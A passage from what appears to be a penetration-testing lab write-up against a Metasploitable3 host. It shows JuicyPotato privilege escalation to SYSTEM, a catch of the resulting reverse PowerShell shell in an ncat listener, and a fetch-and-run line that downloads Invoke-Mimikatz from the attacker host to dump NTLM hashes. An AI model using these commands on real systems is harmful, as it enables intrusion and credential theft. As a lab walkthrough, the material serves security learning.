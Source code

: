 ```
PS C:\Windows\Temp\r0kit> cp "C:\Program Files\jmx\Invoke-PowerShellTcp.ps1" .
```

Since the JuicyPotato exploit invokes an out-of-band process from the current powershell session, I figured I could invoke the reverse powershell script with `powershell.exe` to get a reverse powershell session with `SYSTEM` privileges:

```
PS C:\Windows\Temp\r0kit> .\JuicyPotato.exe -l 1337 -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "C:\Windows\Temp\r0kit\Invoke-PowerShellTcp.ps1" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 172.28.128.4.
Ncat: Connection from 172.28.128.4:49415.
Windows PowerShell running as user METASPLOITABLE3$ on METASPLOITABLE3
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system
```

At this point, I compromised the entire system. The next step was to harvest NTML hashes and passwords.

### Gathering NTLM Hashes and Passwords

After gaining `SYSTEM` level access to the host, I dump cached credentials from the SAM process so that I can use the NTLM hashes to pivot through networks and reuse passwords.

Note that we need `SYSTEM` level access to dump the NTLM hashes and passwords from the SAM process because without them, this is what happens: 

```
PS C:\Windows\Temp\r0kit> whoami
nt authority\local service
PS C:\Windows\Temp\r0kit> iex(New-Object System.Net.WebClient).DownloadString("http://172.28.128.1:8000/Invoke-Mimikatz.ps1")

  .#####.   mimikatz 2.1.1 (x64) built on Sep 15 2017 17:58:17
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(powershell) # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061

mimikatz(powershell) # exit
Bye!
```
